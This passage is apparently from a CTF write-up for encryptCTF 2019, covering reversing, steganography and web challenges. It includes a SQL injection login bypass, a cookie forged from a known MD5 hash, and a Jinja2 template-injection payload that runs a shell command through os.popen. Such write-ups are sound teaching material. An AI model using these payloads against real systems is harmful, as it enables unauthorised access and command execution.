  unsigned int v2; // et1
  char dest[9]; // [esp+12h] [ebp-16h]
  unsigned int v4; // [esp+1Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  strncpy(dest, a1, 0xAu);
  puts("Validating Input 4");
  if ( dest[0] + dest[8] != 213 )
    boom();
  if ( dest[1] + dest[7] != 206 )
    boom();
  if ( dest[2] + dest[6] != 231 )
    boom();
  if ( dest[3] + dest[5] != 201 )
    boom();
  if ( dest[4] == 105 )
    puts("you earned it");
  v2 = __readgsdword(0x14u);
  result = v2 ^ v4;
  if ( v2 != v4 )
    terminate();
  return result;
}
```

Finally, we have a 9-character string. The middle character is `i`, the remaining ones need to sum up in pairs to various constants. We can choose `z` as one of the two characters, since there are no other constraints on the string, then find the character to complete the sum:

```python
>>> [ chr(x - ord('z')) for x in [213, 206, 231, 201] ]
['[', 'T', 'm', 'O']
```

So the password can be `zzzziOmT[`.

With the five password ready, we can get the flag:

```
$ printf "CRACKME02\n\xEF\xBE\xAD\xDE\nZXytUb9fl78evgJy3KJN\n1\nzzzziOmT[\n" | nc 104.154.106.182 7777
Hi!, i am a BOMB!
I will go boom if you don't give me right inputs
Enter input #0: Enter input #1: Enter input #2: Enter input #3: SUBSCRIBE TO PEWDIEPIE
Enter input #4: Validating Input 4
you earned it
```

`encryptCTF{B0mB_D!ffu53d}`

## 500 Reversing / dontlook at this Challenge ##

**Description**

> 1) this is an easy challenge
> 
> 2) pls post a writeup if you solve it.
> 
> Author: @X3eRo0

**Files provided**

 - [`a`](files/dontlookatthischallenge-a.out)

**Solution**

(TODO)

## 25 Steganography / yhpargonagets ##

**Description**

> `Find it fi y0u can :p `
> 
> <span style="color:#e83e8c;"> Author: inc0gnito</span>

**Files provided**

 - [`encode`](files/yhpargonagets-encode.jpg)

**Solution**

A hint was released for this challenge since it did not have many solves: `Do you like pip?`

`yhpargonagets` is also steganography backwards.

We can install the [`steganography`](https://pypi.org/project/steganography/) pip package, then:

```python
>>> from steganography.steganography import Steganography
>>> Steganography.decode("encode.jpg")
```

(The `encode.jpg` file is actually a PNG file.)

`encryptCTF{pip_in5t411_5teg4n0graphy}`

## 50 Steganography / Into The Black ##

**Description**

> "My My, Hey Hey......,<br>
> Rock & Roll is here to stay..<br>
> It's better to burn up,<br>
> Then to fade away....,<br>
> My My, Hey Hey....."
> 
> <a href="https://imgur.com/a/iC4ORoW">meme</a>
> 
> ```Author:@mostwanted002```

**Files provided**

 - [`IntoTheBlack`](files/intotheblack-intotheblack.png)

**Solution**

We can replace the not-quite-black colour with white in our favourite image editor:



`encryptCTF{L1GH7_17_UP}`

## 100 Steganography / Stressed out? ##

**Description**

> Elliot all stressed out from this hack, that hack, saving the world (yeeeeep, sounds about right) was losing his mind when Mr. Robot handed him this song to relax to.
> 
> <span style="font-style: italic;color:#b00e8c;"> Elliot: It's good. So good, it scratched that part of my mind. The part that doesn't allow good to exist without a condition. </span>
> 
> <span style="color:#e83e8c;"> Author: maskofmydisguise</span>

**Files provided**

 - [`dontstressoutkiddo`](files/stressedout-dontstressoutkiddo.zip)

## 50 Web / Sweeeeeet ##

**Description**

> Do you like <a href="https://imgur.com/HfJdHKM">sweets</a>? <br>
> 
> <span style="color:#990000;">```http://104.154.106.182:8080```</span>
> 
> ```author: codacker```

**No files provided**

**Solution**

The title and the description of this challenge refer to cookies.

After visiting the website for the first time, we are given a `UID` cookie:

```bash
$ curl -vv http://104.154.106.182:8080/ 2>&1 | grep "Set-Cookie"
< Set-Cookie: UID=f899139df5e1059396431415e770c6dd; expires=Sat, 06-Apr-2019 14:20:00 GMT; Max-Age=172800
```

On our second visit, with the `UID` cookie set, we get another cookie:

```bash
$ curl -b "UID=f899139df5e1059396431415e770c6dd" -vv http://104.154.106.182:8080/ 2>&1 | grep "Set-Cookie"
< Set-Cookie: FLAG=encryptCTF%7By0u_c4nt_U53_m3%7D
```

But this is not the flag.

Interestingly though, the `UID` is always the same, even when visiting in different browsers or from different IPs. In fact, the hash is a known hash and it is `md5("100") == "f899139df5e1059396431415e770c6dd"`. We can change our `UID` to `md5("0") == "cfcd208495d565ef66e7dff9f98764da"`, which gives us the actual flag:

```bash
$ curl -b "UID=cfcd208495d565ef66e7dff9f98764da" -vv http://104.154.106.182:8080/ 2>&1 | grep "Set-Cookie"
< Set-Cookie: FLAG=encryptCTF%7B4lwa4y5_Ch3ck_7h3_c00ki3s%7D%0A
```

`encryptCTF{4lwa4y5_Ch3ck_7h3_c00ki3s}`

## 50 Web / Slash Slash ##

**Description**

> //
> 
> ``` Author: maskofmydisguise ```

**Files provided**

 - [`handout_slashslash`](files/slashslash-handout_slashslash.7z)

**Solution**

The `application.py` file gets the flag from the environment variables:

```python
FLAG = os.getenv("FLAG", "encryptCTF{}")
```

However, this is not set by default. If we look into the `env/bin` directory, we see several `activate` scripts (for various shells?). The `activate` script with no extension for `bash` has this line at the end:

    # export $(echo RkxBRwo= | base64 -d)="ZW5jcnlwdENURntjb21tZW50c18mX2luZGVudGF0aW9uc19tYWtlc19qb2hubnlfYV9nb29kX3Byb2dyYW1tZXJ9Cg=="

If uncommented, it would set the `FLAG` environment variable to:

```bash
$ base64 -D <<<"ZW5jcnlwdENURntjb21tZW50c18mX2luZGVudGF0aW9uc19tYWtlc19qb2hubnlfYV9nb29kX3Byb2dyYW1tZXJ9Cg=="
```

`encryptCTF{comments_&_indentations_makes_johnny_a_good_programmer}`

## 100 Web / vault ##

**Description**

> i heard you are good at breaking codes, can you crack this vault?
> 
> <span style="color:#990000;">```http://104.154.106.182:9090```</span>
> 
> ```author: codacker```

**No files provided**

**Solution**

Basic SQL injection (`' or 1 = 1 -- ` in both fields):



Leads us to an "ACCESS GRANTED" page:


But the QR code is a decoy, it just leads to this [video](https://www.youtube.com/watch?v=gvYfRiJQIX8). The real flag is given to us in the `SESSIONID` cookie: `ZW5jcnlwdENURntpX0g0dDNfaW5KM2M3aTBuNX0%3D`.

```bash
$ base64 -D <<<"ZW5jcnlwdENURntpX0g0dDNfaW5KM2M3aTBuNX0="
```

`encryptCTF{i_H4t3_inJ3c7i0n5}`

## 100 Web / Env ##

**Description**

> <p>Einstein said, "<i>time</i> was relative, right?"</p>
> 
> <a target="_blank" href="https://i.imgur.com/LYS3TYi.jpg">meme 1</a><br>
> <a target="_blank" href="https://i.imgur.com/FcsusMX">meme 2</a>
> 
> <span style="color:#990000;">```http://104.154.106.182:6060```</span>
> 
> ``` Author: maskofmydisguise ```
> 

**No files provided**

## 150 Web / repeaaaaaat ##

**Description**

> Can you repeaaaaaat?
> 
> <span style="color:#990000;">```http://104.154.106.182:5050```</span>
> 
> ```author: codacker```

**No files provided**

**Solution**

On the website we are presented with a script that replicates images whenever we scroll, but we can mostly ignore that. In the sourcecode, we find it says `Hello, (the repeating images)` followed by a comment.

The comment is always Base-64 encoded and is one of the following:

    L2xvbF9ub19vbmVfd2lsbF9zZWVfd2hhdHNfaGVyZQ==
    d2hhdF9hcmVfeW91X3NlYXJjaGluZ19mb3IK
    Lz9zZWNyZXQ9ZmxhZw==

These decode to:

    /lol_no_one_will_see_whats_here
    what_are_you_searching_for
    /?secret=flag

The first leads to another encoded string `aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2hcP3ZcPVBHakxoT2hNTFhjCg==`, which decodes to the URL of [this video](https://www.youtube.com/watch?v=PGjLhOhMLXc).

The second is similar, leading to [this video](https://www.youtube.com/watch?v=5rAOyh7YmEc).

But the final `/?secret=flag` clue is very important. Upon navigating to that URL, we are still on the front page with repeating images, but this time the source reads `Hello, (the repating images) flag`.

Here we can identify a template injection, e.g. when we do `/?secret={{'a'*3}}`, which produces `aaa` in the output. Here is a [useful cheatsheet](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti) when dealing with SSTI (server-side template injection). There is no filtering on our input, so we just need to obtain a reference to e.g. the `os` module to do some shell stuff:

    {{"".__class__.__mro__[1].__subclasses__()[240].__init__.__globals__["sys"].modules["os"].popen("cat%20flag.txt").read()}}

Explanation:

 - `""` - a `str` instance
 - `.__class__` - its type
 - `.__mro__[1]` - its superclass, `object`
 - `.__subclasses__()` - its subclasses
 - `[240]` - (may differ from version to version), one of its subclasses, in this case `zipinfo.ZipFile`
 - `.__init__` - its constructor
 - `.__globals__` - the global variables available to that constructor
 - `["sys"]` - the `sys` module
 - `.modules` - references to other loaded modules
 - `["os"]` - the `os` module
 - `.popen` - the function to run a shell command

So we run `cat flag.txt` to obtain:

`encryptCTF{!nj3c7!0n5_4r3_b4D}`
